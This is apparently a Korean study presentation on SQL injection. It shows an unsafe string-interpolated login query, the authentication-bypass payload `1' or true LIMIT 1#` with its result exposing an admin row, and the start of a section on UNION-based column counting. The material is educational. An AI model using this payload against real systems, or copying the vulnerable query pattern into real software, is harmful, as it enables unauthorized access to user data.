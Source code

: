 # 2023-08-22 (화) 발표 : SQL Injection

# 1️⃣ SQL Injection

- 악의적인 SQL Query 문을 날려 DB를 비정상적으로 조작하는 해킹 방법

# 2️⃣ 공격 방법

## ✳️ WHERE 절 구문을 이용한 **인증 우회 방법**

### 상황

- SQL Injetion 에 안전하지 않은 쿼리문

```sql
SELECT username, description, is_admin
FROM member
WHERE username = '${username}' AND password = '${password}'
```

### SQL Injection

```
입력: 1' or true LIMIT 1#
```

```sql
SELECT username, description, is_admin
FROM member
WHERE **username = '1' OR true LIMIT 1**#AND password = '${password}'

-- 결과
+----------+--------------------------+----------+
| username | description              | is_admin |
+----------+--------------------------+----------+
| admin    | Where did you find this? |        1 |
+----------+--------------------------+----------+
1 row in set (0.01 sec)
```

- WHERE 절 조건이 무조건 `true` 가 되면서 member 정보가 노출된다

## ✳️ UNION을 활용한 컬럼 개수 찾기

### UNION

- 여러 개의 SELECT 문 결과를 하나의 테이블(결과 집합)으로 합쳐주는 구문
    - SELECT 문으로 선택된 필드의 개수와 타입은 모두 같아야 하며, 필드의 순서 또한 같아야 한다.
    
    ```sql
    SELECT 필드_1, 필드_2
    FROM 테이블_1
    UNION
    SELECT 필드_1, 필드_2
    FROM 테이블_2
    ```
    